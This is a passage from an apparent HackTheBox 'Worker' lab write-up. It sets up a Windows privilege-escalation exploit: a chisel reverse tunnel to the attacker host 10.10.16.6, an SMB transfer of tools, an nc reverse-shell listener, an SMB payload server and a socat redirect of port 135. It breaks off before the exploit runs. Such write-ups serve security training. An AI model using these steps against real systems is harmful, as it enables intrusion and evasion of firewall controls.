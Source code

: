 ```
c:\Temp>netsh firewall show config 

Port configuration for Standard profile:                                           
Port   Protocol  Mode    Traffic direction     Name
-------------------------------------------------------------------
5985   TCP       Enable  Inbound               open winrm                          
3690   TCP       Enable  Inbound               Open Port 3690
8080   TCP       Enable  Inbound               Azure DevOps Server:8080
```

Remember, we need our attacker machine (the middle man in connecting the remote OXID request to the fake OXID server) to forward traffic back to the machine. But the firewall blocks this, as it is an inbound connection. Our solution: creating a tunnel with chisel. The machine will be the client connecting outbound to our attacking machine, the server. If you don't have the chisel.exe, you can just download it from the <a href="https://github.com/jpillora/chisel/releases/tag/v1.7.6">Github repo</a>, unzip it, and transfer it via SMB (`copy \\10.10.16.6\\share\chisel.exe C:\Temp\chisel.exe`).

```
//Our attacking machine is listening on 8000 for a chisel client to connect
┌──(root💀kali)-[/home/kali/GithubTools/chisel]
└─# chisel server -p 8000 --reverse 

2021/12/07 02:32:14 server: Reverse tunnelling enabled
2021/12/07 02:32:14 server: Fingerprint CudNiCK8VPwO5z06ZDkdUdnwsEDR1OEzsm+ZgQTfxl0=
2021/12/07 02:32:14 server: Listening on http://0.0.0.0:8000
2021/12/07 02:34:36 server: session#1: Client version (1.7.6) differs from server version (0.0.0-src)
2021/12/07 02:34:36 server: session#1: tun: proxy#R:9999=>localhost:9999: Listening

//We are connecting to our attacking machine, on the chisel server's port. From there we are redirecting traffic
//from the attacking machine's 9999 to our own 9999
c:\Temp>.\chisel64.exe client 10.10.16.6:8000 R:9999:localhost:9999

2021/12/07 09:48:53 client: Connecting to ws://10.10.16.6:8000
```

Now we set up our listener, our SMB server with our payload, and socat to redirect the traffic.

```
┌──(root💀kali)-[/home/kali/HackTheBox/Worker]
└─# rlwrap nc -nvlp 4444

┌──(root💀kali)-[/home/kali/HackTheBox/Worker]
└─# smbserver.py share . -smb2support

//we are redirecting anything incoming to 135, to our own 9999. Because of chisel, our 9999 will be redirected //again to the victim machine on their 9999
┌──(root💀kali)-[/home/kali/HackTheBox/Worker]
└─# socat tcp-listen:135,reuseaddr,fork tcp:127.0.0.1:9999 
```

With everything set up, let's run the exploit.
